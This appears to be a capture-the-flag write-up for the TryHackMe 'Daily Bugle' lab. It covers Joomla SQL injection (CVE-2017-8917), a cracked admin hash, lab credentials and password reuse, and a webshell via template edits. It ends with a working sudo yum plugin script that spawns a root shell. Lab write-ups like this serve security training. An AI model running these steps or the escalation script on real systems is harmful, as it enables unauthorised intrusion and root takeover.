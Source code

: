 # THM: Daily Bugle
# OS: Linux (Hard)

----

[NOTES]
- Joomla CMS at http://$ip/ is vulnerable to `CVE-2017-8917`
- Found Joomla password:
  - jonah:spiderman123
- MySQL creds:
  - root:nv5uz9r3ZEDzVjNu
- Found password reuse:
  - `MySQL:root | internal:jjameson` ~ nv5uz9r3ZEDzVjNu


Usernames:
  - jonah (Joomla)
  - jjameson (Linux Account)
  - root (MySQL)

Passwords:
  - nv5uz9r3ZEDzVjNu (MySQL|root) (System|jjameson)
  - spiderman123 (Joomla|jonah)

----

## Foothold

[WEB]
**Port -> 80**
- Get version information from `http://$ip/README.txt`
- Found CVE (SQLi):
  - CVE-2017-8917
  - 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
  Hash cracked: spiderman123

- Get webshell from modifying Joomla templates.

## PrivEsc
**apache -> jjameson**
- Credentials for jjameson was found on `/var/www/html/configuration.php` (Password reuse):
  - user `apache` can escalate their privileges to `jjameson` by using `su`
    - User: jjameson
    - Pass: nv5uz9r3ZEDzVjNu

**jjjameson -> root**
- We can run yum as root with no pass, this is dangerous since we can create malicious plugins/packages. And get root.

```shell
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
